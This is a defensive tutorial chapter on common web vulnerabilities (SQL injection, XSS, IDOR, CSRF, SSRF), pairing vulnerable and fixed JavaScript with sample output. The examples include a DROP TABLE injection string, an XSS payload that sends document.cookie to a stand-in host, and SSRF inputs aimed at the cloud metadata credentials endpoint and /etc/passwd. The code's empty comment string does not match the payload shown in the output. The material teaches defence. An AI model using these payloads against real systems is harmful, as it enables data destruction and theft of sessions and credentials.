

## Before you start

You need `authentication-authorization` and HTTP basics. This is defensive material: you learn each attack so you can recognise and fix it in your own code.

## In one sentence

Almost every web vulnerability is the same mistake wearing different clothes — **data supplied by a user gets treated as a trusted instruction**, whether that instruction is SQL, HTML, a URL your server fetches, or an ID your code looks up without checking who's asking.

## Why it matters

These aren't exotic. The OWASP Top 10 exists because the same handful of flaws cause breaches year after year, and injection has been near the top since the list began.

The good news is that the fixes are well understood, cheap, and mostly mechanical. Nearly every one comes down to the same instinct: **separate data from instructions, and check permission on the specific thing being accessed.**

## The intuition

Think about a bank teller taking instructions on a slip of paper.

**Injection** is writing your instruction on the slip where the amount should go, and the teller executing it because they can't tell the form's structure from the customer's writing.

**IDOR** — insecure direct object reference — is asking for account 12346 instead of your own 12345 and the teller handing it over because you asked politely.

**CSRF** is tricking someone else into signing your slip.

**SSRF** is convincing the teller to walk into the back office and read something you're not allowed to see, because they'll go wherever you point them.

The common thread: the system can't distinguish *what the user is allowed to influence* from *what the system decides*.



## How it actually works

**SQL injection.** You build a query by gluing strings together, so the user's text becomes part of the query's *structure* rather than a value inside it. The fix is **parameterised queries**: send the SQL and the values separately, so the database treats the value as data no matter what characters it contains. OWASP calls prepared statements the primary defence, and escaping "strongly discouraged".

**XSS.** You put user text into a page without escaping, so their `<script>` runs in another user's browser with that user's session. The fix is **context-aware output encoding** — escaping on the way *out*, at the point of rendering — plus a **Content-Security-Policy** header as defence in depth.

**IDOR.** Your handler reads an ID from the URL and fetches that record without checking it belongs to the caller. Authentication passed; authorisation for *this object* never happened. The fix is to scope every query by the authenticated user.

**CSRF.** The browser attaches cookies automatically to any request to your domain, including one triggered from an attacker's page. Your server sees a perfectly valid authenticated request the user never intended. The fixes are an **anti-CSRF token** the attacker can't read, and **`SameSite`** cookies.

**SSRF.** Your server fetches a URL the user supplied. Since your server sits inside the network, an attacker points it at internal addresses — most notoriously the cloud metadata endpoint `169.254.169.254`, which can return IAM credentials. The fix is an **allowlist** of permitted hosts.

## Worked example

Three vulnerabilities and their fixes, side by side. This runs:

```js
// ---- 1. SQL INJECTION ----
const attack = "'; DROP TABLE users; --";
const buildVulnerable = (n) => `SELECT * FROM users WHERE name = '${n}'`;   // NEVER
const buildSafe = (n) => ({ text: 'SELECT * FROM users WHERE name = $1', values: [n] });
console.log('VULNERABLE SQL:', buildVulnerable(attack));
console.log('SAFE SQL      :', JSON.stringify(buildSafe(attack)));

// ---- 2. XSS ----
const comment = '';
const escapeHtml = (s) => String(s).replace(/[&<>"']/g, c =>
  ({ '&':'&amp;', '<':'&lt;', '>':'&gt;', '"':'&quot;', "'":'&#39;' }[c]));
console.log('\nVULNERABLE HTML:', `<div>${comment}</div>`);
console.log('SAFE HTML      :', `<div>${escapeHtml(comment)}</div>`);

// ---- 3. IDOR ----
const orders = { 1: { owner: 'alice' }, 2: { owner: 'bob' } };
const getOrderVulnerable = (id) => orders[id];                  // no ownership check
function getOrderSafe(id, user) {
  const o = orders[id];
  if (!o || o.owner !== user) return { error: 'not found' };    // 404, not 403
  return o;
}
console.log('\nIDOR vulnerable (alice reads order 2):', getOrderVulnerable(2));
console.log('IDOR fixed      (alice reads order 2):', getOrderSafe(2, 'alice'));
```

Output:

```
VULNERABLE SQL: SELECT * FROM users WHERE name = ''; DROP TABLE users; --'
SAFE SQL      : {"text":"SELECT * FROM users WHERE name = $1","values":["'; DROP TABLE users; --"]}

VULNERABLE HTML: <div></div>
SAFE HTML      : <div>&lt;img src=x onerror=&quot;fetch(&#39;https://evil.tld/?c=&#39;+document.cookie)&quot;&gt;</div>

IDOR vulnerable (alice reads order 2): { owner: 'bob' }
IDOR fixed      (alice reads order 2): { error: 'not found' }
```

Read the first pair carefully. In the vulnerable output the attacker's text **became query structure** — a second statement. In the safe version the identical string sits in a `values` array, so the database binds it as a literal and it can never be executed regardless of its content.

The XSS pair is the same idea in HTML: the payload needs no `<script>` tag, just an `onerror` handler. After escaping, the browser renders it as visible text.

The IDOR fix returns **"not found" rather than "forbidden"** for someone else's order — deliberately. Saying "forbidden" confirms the record exists, which leaks information an attacker can enumerate.

## A second example — when it gets harder

SSRF is subtler because the vulnerable code looks completely reasonable — fetching a user-supplied image URL is a normal feature.

```js
const ALLOWED_HOSTS = new Set(['images.example.com', 'cdn.example.com']);

function checkUrl(raw) {
  let u;
  try { u = new URL(raw); } catch { return 'reject: unparseable URL'; }
  if (u.protocol !== 'https:') return `reject: protocol ${u.protocol}`;   // no file:, no http:
  if (!ALLOWED_HOSTS.has(u.hostname)) return `reject: host ${u.hostname} not on allowlist`;
  return 'allow';
}
```

Output across six inputs:

```
allow                                          https://images.example.com/a.png
reject: protocol http:                         http://169.254.169.254/latest/meta-data/iam/security-credentials/
reject: host 169.254.169.254 not on allowlist  https://169.254.169.254/latest/meta-data/
reject: protocol file:                         file:///etc/passwd
reject: host localhost not on allowlist        https://localhost:8080/admin
reject: host images.example.com.evil.tld not on allowlist  https://images.example.com.evil.tld/x.png
```

The second line is the attack that has caused real breaches: the cloud metadata service returns temporary IAM credentials to anything that asks from inside the instance, so an SSRF becomes full cloud account access.

The last line shows why **allowlists must match exactly**. A blocklist, or a naive `hostname.includes('example.com')`, would happily accept `images.example.com.evil.tld` — a domain the attacker owns. This is the general rule OWASP states plainly: **allow-lists beat deny-lists**, because you can enumerate what's safe but never everything that's dangerous.

Even this isn't complete. An allowlisted hostname can resolve via DNS to an internal IP, and an attacker can exploit the gap between check and fetch — **DNS rebinding**. Complete defence needs network-level controls: route outbound fetches through a proxy, or run in a segment that cannot reach internal ranges.

That layering is the real lesson. **Defence in depth**: parameterised queries *and* least-privilege database users; output encoding *and* CSP; allowlists *and* network segmentation. Every control has a bypass; layered controls mean one failure isn't a breach.

## Quick reference

| Attack | What it abuses | Primary fix |
|---|---|---|
| SQL injection | Input becomes query structure | Parameterised queries |
| XSS | Input rendered as HTML/JS | Context-aware output encoding + CSP |
| CSRF | Cookies sent automatically | Anti-CSRF token + `SameSite` cookies |
| SSRF | Server fetches attacker's URL | Host allowlist + network segmentation |
| IDOR | Missing per-object authorisation | Scope every query by the authenticated user |

## Common mistakes

- Escaping input on the way *in* rather than encoding on the way *out*. The correct encoding depends on where it's rendered, which you only know at output time.
- Using an ORM and assuming immunity — raw query methods and interpolated fragments still inject.
- Blocklists of "dangerous" strings. Attackers have far more encodings than you have patterns.
- Checking only that a user is logged in, never that they own the specific record.
- Hiding a UI button as authorisation. The endpoint is still callable directly.
- Returning "403 Forbidden" for another user's record, confirming it exists.

## What interviewers ask

- **How do you prevent SQL injection?** — Parameterised queries, so values are never parsed as SQL. Not escaping, which OWASP explicitly discourages. Add least-privilege DB users as a second layer.
- **XSS vs CSRF?** — XSS runs attacker JavaScript in a victim's browser (an input-rendering flaw); CSRF makes a victim's browser send an unintended authenticated request (a request-authenticity flaw). Different mechanisms, different fixes.
- **What is IDOR and why is it so common?** — Accessing another user's object by changing an ID, because the code authenticated but never authorised the specific object. It's common because it needs an explicit check per resource and nothing fails visibly when you forget.
- **What makes SSRF dangerous in the cloud?** — Your server can reach internal addresses, including the metadata endpoint that returns IAM credentials, escalating one unvalidated fetch into account compromise.
- **`HttpOnly` and `SameSite` — what do they do?** — `HttpOnly` blocks JavaScript from reading a cookie, limiting XSS theft; `SameSite` stops it being sent on cross-site requests, blocking most CSRF.

## Practice

1. Extend `escapeHtml` and explain why it's still unsafe for text inserted into a `<script>` block or an unquoted HTML attribute. Describe the encoding each context needs.
2. Write `getInvoice(invoiceId, currentUser)` correctly, then list every other endpoint in a typical app needing the same check. Notice how easy one is to miss.
3. Explain why the SSRF allowlist above still isn't sufficient, describe DNS rebinding, and name a network-level control that defends against it.

## Where to go next

`security-best-practices` in Chapter 8 covers Node-specific hardening. [secrets-management](secrets-management) protects the credentials these attacks target, and [logging-and-monitoring](logging-and-monitoring) is how you detect exploitation attempts.
